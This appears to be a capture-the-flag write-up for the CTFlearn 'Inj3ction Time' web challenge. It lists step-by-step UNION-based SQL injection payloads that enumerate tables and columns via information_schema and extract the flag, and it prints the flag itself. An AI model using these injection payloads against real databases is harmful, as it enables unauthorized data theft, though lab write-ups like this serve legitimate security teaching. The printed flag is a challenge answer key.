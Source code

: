 ## Inj3ction Time
The main idea finding the flag is get flag using progressive SQL exploits to get into database.

#### Step-1:
After I visited https://web.ctflearn.com/web8/, the following is the list of commands that I input one by one to get the flag. Its progressive and you have to do it by checking corresponding tables and corresponding columns simultaneously.

#### Step-2:
Commands:

```sql
1 union select 1,2,3,4 #
1 union select table_name,2,3,4 from information_schema.tables #
```

After these, we find `w0w_y0u_f0und_m3` table to access it.

#### Step-3:

```sql
1 union select table_name,column_name,3,4 from information_schema.columns #
```
This gives us a column called `f0und_m3`.

This gives us last command.

```sql
1 union select f0und_m3,2,3,4 from w0w_y0u_f0und_m3 #
```

<img src="Flag.png">

#### Step-4:
Finally the flag becomes: 
`abctf{uni0n_1s_4_gr34t_c0mm4nd}`